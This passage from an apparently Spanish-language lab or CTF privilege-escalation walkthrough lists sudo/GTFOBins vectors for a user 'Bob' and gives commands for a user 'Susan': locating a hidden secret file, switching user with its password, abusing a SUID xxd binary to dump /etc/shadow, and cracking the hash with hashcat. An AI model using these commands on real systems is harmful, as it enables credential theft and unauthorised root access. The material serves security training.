 {{% note %}}
El usuario Bob tiene varios vectores:

Permisos sudo:
1. Verificación con sudo -l
2. Análisis de binarios permitidos
3. Consulta en GTFOBins
4. Selección de método

Explotación:
- Uso de socat
- Abuso de git
- Comando strace
- Otras técnicas disponibles

Documentación:
- Registro de métodos
- Verificación de éxito
- Prueba de alternativas
{{% /note %}}

---

### Vector 3: Usuario Susan
#### SUID y otros vectores

1. Acceso inicial vía archivo oculto:
```bash
find / -name ".*" -type f -path "/home/*" -exec ls -al {} \; 2>/dev/null
cat /home/susan/.secret
su - susan
# Password: MySuperSecretValue!
```

2. Búsqueda de binarios SUID:
```bash
find / -perm -4000 -type f -exec ls -la {} \; 2>/dev/null
# Se identifica /usr/bin/xxd con SUID root
```

3. Explotación de xxd:
```bash
# Como usuario susan (miembro de itservices)
ls -la /usr/bin/xxd
xxd /etc/shadow | xxd -r
```

4. Análisis de hash y cracking:
```bash
# En máquina de atacante
hashcat AzER3pBZhGWZE -m 1500 /tools/wordlists/rockyou.txt
# Password encontrado
```

{{% note %}}
Vectores disponibles para Susan:
